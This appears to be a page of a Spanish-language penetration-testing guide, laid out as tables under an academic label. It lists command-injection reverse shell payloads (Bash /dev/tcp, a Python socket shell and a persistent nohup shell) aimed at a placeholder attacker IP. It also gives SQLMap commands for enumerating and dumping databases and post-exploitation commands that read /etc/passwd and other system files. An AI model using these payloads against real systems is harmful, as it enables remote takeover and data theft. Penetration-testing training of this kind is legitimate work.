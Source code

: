 #### Reverse Shell Payloads

| Tipo                         | Payload                                          | Propósito Académico                              |
|------------------------------|--------------------------------------------------|--------------------------------------------------|
| Bash reverse shell           | `127.0.0.1; bash -i >& /dev/tcp/[IP_atacante]/4444 0>&1` | Establecimiento de acceso remoto directo    |
| Python reverse shell         | `127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'` | Shell usando Python |
| Reverse shell persistente    | `127.0.0.1; nohup bash -c 'bash -i >& /dev/tcp/[IP]/[PUERTO] 0>&1' &` | Shell que sobrevive cierre de conexión original |

### 3.5 Análisis de Vulnerabilidades Web con SQLMap

#### Comandos Básicos de SQLMap

| Técnica                      | Comando                                          | Propósito Académico                              |
|------------------------------|--------------------------------------------------|--------------------------------------------------|
| Test básico de inyección     | `sqlmap -u "http://[IP]/products.php?id=1"`     | Identificar vulnerabilidad SQL injection        |
| Enumerar bases de datos      | `sqlmap -u "[URL]" --dbs --batch`               | Listar bases de datos disponibles               |
| Enumerar tablas              | `sqlmap -u "[URL]" -D [database] --tables`      | Listar tablas de base de datos específica       |
| Extraer datos                | `sqlmap -u "[URL]" -D [db] -T [table] --dump`   | Extraer contenido de tabla específica           |

#### Tabla de Flags - SQLMap

| Flag/Parámetro | Función Académica                               | Fundamento Técnico                                |
|----------------|------------------------------------------------|---------------------------------------------------|
| `-u`           | URL objetivo para prueba                       | Endpoint específico con parámetro vulnerable     |
| `--dbs`        | Enumerar bases de datos                        | Listar esquemas disponibles post-compromiso      |
| `--batch`      | Modo no interactivo                            | Acepta opciones por defecto, automatización      |
| `-D`           | Especificar base de datos                      | Seleccionar esquema específico para enumerar     |
| `--tables`     | Listar tablas                                  | Mostrar estructura de base de datos               |
| `-T`           | Especificar tabla                              | Seleccionar tabla específica para extraer        |
| `--dump`       | Extraer datos                                  | Volcado completo del contenido de tabla          |

---


## 🚀 FASE 4: POST-EXPLOTACIÓN

### 4.1 Reconocimiento Post-Explotación

#### Análisis Inicial del Sistema Comprometido

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Verificación de identidad    | `whoami`                             | Confirmar contexto de usuario actual            |
| Análisis de privilegios      | `id`                                 | Análisis completo de privilegios (UID, GID)     |
| Información del sistema      | `uname -a`                           | Fingerprinting completo del sistema             |
| Release del OS               | `cat /etc/os-release`                | Identificar distribución específica             |
| Versión del kernel           | `cat /proc/version`                  | Información detallada del kernel                |
| Enumeración de usuarios      | `cat /etc/passwd`                    | Mapeo de usuarios del sistema                   |
| Estructura de grupos         | `cat /etc/group`                     | Mapeo de grupos y permisos                      |
| Procesos activos             | `ps aux`                             | Análisis de procesos y propietarios             |